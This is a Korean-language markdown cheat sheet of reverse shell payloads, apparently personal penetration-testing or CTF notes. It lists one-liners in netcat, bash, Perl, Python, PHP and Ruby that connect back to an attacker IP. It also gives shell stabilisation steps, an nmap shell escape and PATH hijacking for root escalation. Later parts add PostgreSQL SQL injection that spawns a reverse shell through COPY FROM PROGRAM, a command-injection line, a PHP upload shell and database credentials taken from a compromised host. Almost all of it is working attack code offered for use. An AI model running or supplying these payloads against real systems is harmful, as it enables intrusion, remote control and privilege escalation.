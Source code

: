 reverse shell
#
`listener`
```
rlwrap nc -nvlp <port>
```
- l: 연결을 듣는다
- v: 상세수준을 설정
- n: dns를 통해 호스트 이름을 확인하지 않는다.
- p: 사용할 포트를 지정한다.

#
`Netcat`
```
nc -e /bin/sh 10.0.0.1 1234
```
잘못된 버전을 사용할 경우 다음과 같이 리버스 셸을 다시 사용할 수 있다

#
`Bash`
```
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```
#
`Perl`
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
#
`python`
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
#
`php`
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
#
`ruby`
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
#
locate
```
/usr/share/webshells/php/php-reverse-shell.php
```
#
`셸 안정화`
```
script /dev/null -c bash
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```

`대화식 셸`
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

[nmap](https://gtfobins.github.io/gtfobins/nmap/)
```
nmap --interactive
!sh
```
![image](https://user-images.githubusercontent.com/61821641/152297137-ab84a146-d2ba-462d-bf85-4b33ef5fd69b.png)
#
`절대 경로 대신 상대 경로를 사용하여 cat binary를 호출하는 것을 볼 수 있다. 악의적인 cat을 만들고 현재 작업 디렉토리를 포함하도록 경로를 수정하면 잘못된 구성을 악용할 수 있으며 권한을 루트로 높일 수 있다.`
```
export PATH=/tmp:$PATH
cd /tmp
echo '/bin/sh' > cat
chmod +x cat
```

#
`sql injection`
```
' UNION SELECT NULL, NULL, NULL , NULL, VERSION() --
```
이 SQL 문을 사용하면 이 웹 사이트의 백엔드 데이터베이스가 Postgre임을 알 수 있습니다.SQL 버전 11.5. "Google University"에서 어떤 종류의 reverse shell을 얻을 수 있는지 알아보겠습니다. 우리는 Postgre에서 발견된 exploit에 대해 알게 되었다.버전 11.5의 경우 SQL 버전 9.3이 아직 살아 있습니다. * 메타스플로이트를 사용

`![image](https://user-images.githubusercontent.com/61821641/150574663-24469d46-8cb2-4bc2-89ed-fdd4d3af03c9.png)


`이어서 reverse shell`

```
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/<my ip>/1234 0>&1'''; -- 
```

![image](https://user-images.githubusercontent.com/61821641/150575592-27443005-8908-470b-83ec-0d977f32a386.png)

#
```
echo "AB; nc -e /bin/sh 10.10.14.17 1234" | nc 127.0.0.1 6697
```
![image](https://user-images.githubusercontent.com/61821641/152299600-f1a2ddfa-3c9e-433c-856e-2fbc005e08d6.png)
#

`1. php 업로드`
```
<?php
  exec("/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.217/1234 0<&1'")
?>
```
`2. 셸 안정화`
```
script /dev/null -c bash
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```
`3. 탐색(home, var 하위 디렉토리)`
```
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
`4. 얻은 정보로 권한 상승?`
```
su robert
M3g4C0rpUs3r!
``` 
```
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```
```
find / -group bugtracker 2>/dev/null
```
`bugtracker`그룹에 접근
```
find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```
id를 몰라서 접근이 안된다.

![image](https://user-images.githubusercontent.com/61821641/149992123-52fab6e7-b05b-41ea-b696-72f866995ed3.png)

`절대 경로 대신 상대 경로를 사용하여 cat binary를 호출하는 것을 볼 수 있다. 악의적인 cat을 만들고 현재 작업 디렉토리를 포함하도록 경로를 수정하면 잘못된 구성을 악용할 수 있으며 권한을 루트로 높일 수 있다.`
```
export PATH=/tmp:$PATH
cd /tmp
echo '/bin/sh' > cat
chmod +x cat
```
#
1. 포트 1234(또는 수신하려는 포트)를 통해 대상 시스템의 IPv4 주소에서 공격 시스템의 IPv4 주소로의 모든 TCP 인바운드 연결을 허용
```
sudo ufw allow from <target ip> proto tcp to any port 1234
nc -lvnp 1234
```
2. 
![image](https://user-images.githubusercontent.com/61821641/150576818-3437aa8c-226b-412d-8402-1d33fb6a8cdf.png)
```
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/<my ip>/1234 0>&1'''; -- 
```
3. 상호작용적인 shell 만들기
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
![image](https://user-images.githubusercontent.com/61821641/150577289-9a5f4915-a62c-4851-bbdd-c6663af8688a.png)

#
reference

- [reverse shell php](https://github.com/BlackArch/webshells)
- [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [reverse shell payload](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [nmap](https://gtfobins.github.io/gtfobins/nmap/)